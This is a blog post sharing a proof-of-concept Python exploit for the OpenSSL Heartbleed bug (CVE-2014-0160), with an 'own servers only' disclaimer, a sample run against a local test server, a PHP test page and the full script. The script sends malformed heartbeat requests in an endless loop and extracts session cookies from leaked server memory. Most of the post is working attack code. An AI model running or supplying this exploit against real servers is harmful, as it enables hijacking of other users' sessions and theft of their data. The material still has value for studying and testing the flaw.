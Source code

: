 ```yaml
---
layout: post
title: PoC to capture data via the Heartbleed Bug
description: "A simple proof of concept on how to capture data on server running OpenSSL"
tags: [heartbeat bug, hacking, exploitation]
comments: true
---
```


This code is not mine nor I claim credits for it. You should use it only on your servers. It is very much against the law if your run it on servers that you do not own. This code is for educational purposes only. I take no responsibility for you doing something stupid with it. Use it to check if your servers are vulnerable.

This is in regards to the bug that was found in OpenSSL versions 1.0.1 to 1.0.1f. These versions do not properly handle hearbeat extension. More info can be read [here](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160).

### Testing Ubuntu 12.04.3 LTS running OpenSSL 1.0.1

{% highlight c %}
$ python heartbleed-altered.py 192.168.199.135 secure
secure
securepassword=iamencrypted
{% endhighlight %}

The command above will try to capture section of a memory on the OpenSSL server. This is not even a mitm attack. This tool is directly connected to the Apache server via ssl(https). I noticed though sometimes, it doesn't capture anything. I'm pretty sure that the full working code is not being shared which I think is appropriate.

On my browser, I visited http://192.168.199.135/index.php
{% highlight c %}
<?php
    session_start();
    setcookie("securepassword", "iamencrypted");
    setcookie("secureusername", "highlysecured");
?>
{% endhighlight %}

This is how it looks in Chrome Developer Tools
<figure>
    <img src="/images/cookie-on-chrome-dev-tools.png">
</figure>


[Can be downloaded here](https://gist.github.com/c0debreaker/10225656)

{% highlight c %}
#!/usr/bin/python

# Connects to servers vulnerable to CVE-2014-0160 and looks for cookies, specifically user sessions.
# Michael Davis (mike.philip.davis@gmail.com)

# Based almost entirely on the quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)

# The author disclaims copyright to this source code.

import select
import sys
import string
import struct
import socket
import time
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')
options.add_option('-c', '--cookie', type='str', default='session', help='Cookie to look for. (default: session)')


def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01
''')

hb = h2bin('''
18 03 02 00 03
01 40 00
''')


class HeartBleeder(object):

    server_response = None
    socket = None
    hostname = ''
    port = 443
    found_sessions = set()
    cookie = 'session'
    cookie_length = 56

    def __init__(self, hostname='', cookie=''):
        self.hostname = hostname
        self.cookie = cookie

    def connect(self):
        """
        Connects to the remote server.
        """
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sys.stdout.flush()
        self.socket.connect((self.hostname, self.port))
        sys.stdout.flush()
        self.socket.send(hello)
        sys.stdout.flush()

    def rcv_response(self):
        while True:
            _type, version, payload = self.rcv_message()
            if _type is None:
                print 'Server closed connection without sending Server Hello.'
                return
            # Look for server hello done message.
            if _type == 22 and ord(payload[0]) == 0x0E:
                break

    def rcv_message(self):

        record_header = self.rcv_all(5)
        if record_header is None:
            print 'Unexpected EOF receiving record header - server closed connection'
            return None, None, None
        _type, version, line = struct.unpack('>BHH', record_header)
        payload = self.rcv_all(line, 10)
        if payload is None:
            print 'Unexpected EOF receiving record payload - server closed connection'
            return None, None, None
        # print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
        return _type, version, payload

    def rcv_all(self, length, timeout=5):
        endtime = time.time() + timeout
        rdata = ''
        remain = length
        while remain > 0:
            rtime = endtime - time.time()
            if rtime < 0:
                return None
            r, w, e = select.select([self.socket], [], [], 5)
            if self.socket in r:
                data = self.socket.recv(remain)
                # EOF?
                if not data:
                    return None
                rdata += data
                remain -= len(data)
        return rdata

    def try_heartbeat(self):
        self.socket.send(hb)
        while True:
            _type, version, self.payload = self.rcv_message()
            if _type is None:
                print 'No heartbeat response received, server likely not vulnerable'
                return False

            if _type == 24:
                # print 'Received heartbeat response:'
                self.parse_response()
                if len(self.payload) > 3:
                    pass
                    # print 'WARNING: server returned more data than it should - server is vulnerable!'
                else:
                    print 'Server processed malformed heartbeat, but did not return any extra data.'
                return True

            if _type == 21:
                print 'Received alert:'
                self.hexdump(self.payload)
                print 'Server returned error, likely not vulnerable'
                return False

    def parse_response(self):
        """
        Parses the response from the server for a session id.
        """
        ascii = ''.join((c if 32 <= ord(c) <= 126 else ' ')for c in self.payload)
        index = string.find(ascii, self.cookie)
        if index >= 0:
            info = ascii[index:index + self.cookie_length]
            session = info.split(' ')[0]
            session = string.replace(session, ';', '')
            if session not in self.found_sessions:
                self.found_sessions.add(session)
                print session

    def hexdump(self, payload):
        """
        Prints out a hexdump in the event that server returns an error.
        """
        for b in xrange(0, len(payload), 16):
            line = [c for c in payload[b:b + 16]]
            hxdat = ' '.join('%02X' % ord(c) for c in line)
            pdat = ''.join((c if 32 <= ord(c) <= 126 else '.')for c in line)
            print '  %04x: %-48s %s' % (b, hxdat, pdat)
        print

    def scan(self):
        self.connect()
        self.rcv_response()
        self.try_heartbeat()


def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    cookies_str = 'session'
    if len(args) > 1:
        cookies_str = args[1]

    print cookies_str

    while True:
        heartbeat = HeartBleeder(hostname=args[0], cookie=cookies_str)
        heartbeat.scan()


if __name__ == '__main__':
    main()
{% endhighlight %}